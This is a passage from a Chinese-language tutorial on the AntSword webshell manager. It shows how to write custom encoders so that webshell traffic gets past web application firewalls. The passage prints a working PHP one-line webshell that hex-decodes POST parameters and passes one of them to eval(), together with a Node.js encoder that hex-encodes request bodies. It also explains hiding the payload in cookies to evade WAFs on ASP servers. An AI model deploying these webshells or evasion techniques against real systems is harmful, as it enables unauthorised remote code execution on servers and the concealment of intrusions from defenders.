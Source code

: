 ```
}
```

这里解释下。每次 antsword 执行一个功能时会发送对应脚本的代码过去执行，里面每次都会带有一个叫 asenc 的函数，这个函数默认是直接返回参数的。我们在解码器中直接修改 asenc 这个函数即可处理一句话服务端的返回数据。同时对应在最下面的 decode\_buff 做反向处理即可。

### 3 对功能参数做编码处理

在 antsword 中，在使用各种功能时还会多传一些参数用来放功能所需的数据，这些参数只会进行 base64 编码，某些情况下会被 waf 识别。

对于这种情况，可以在发送前对所有请求体变形一次。在一句话服务端，执行前先变形复原。  
一句话服务端如下

```
<?php
foreach($\_POST as $k => $v){$\_POST\[$k\]=pack("H\*", $v);}
@eval($\_POST\['ant'\]);
?>
```

编码器如下

```
'use strict';
module.exports =(pwd, data)=>{
let ret ={};
for(let \_ in data){
    ret\[\_\]=Buffer.from(data\[\_\]).toString('hex');
}
  ret\[pwd\]= ret\['\_'\];
delete ret\['\_'\];
return ret;
}
```

这里编码器就是先把 data 中所有值全部 hex。一句话服务端先变形回来再执行。

### 4 变换传参的位置

看完前面的部分可以看出，不管我们怎么设置编码器，传参的位置始终是 post 请求体。像以前出现过的一些一句话客户端，比如 altman 之类的还可以配置通过 cookie 来传参。  
antsword 也是可以实现的。

编辑 shell，请求信息里面。可以自定义请求头，参考最前面讲 base64 编码器的部分。手动把`eval(base64_decode($_POST[${randomID}]));`; 这一串代码编码，放到 cookie 里面去。  
然后修改一句话服务端从 cookie 里获取数据。

这种方法对于 asp 等环境的 waf，绕过的效果非常好。

插件开发
----

### 1 插件设计理念

antsword 插件只会和 Shell 进行通信、交互。  
框架内部执行插件的步骤如下  
1 选中 shell，执行插件  
2 框架实例化插件，把 shell 的信息作为参数传给插件对象  
3 插件根据参数生成脚本语言代码传递给一句话服务端执行
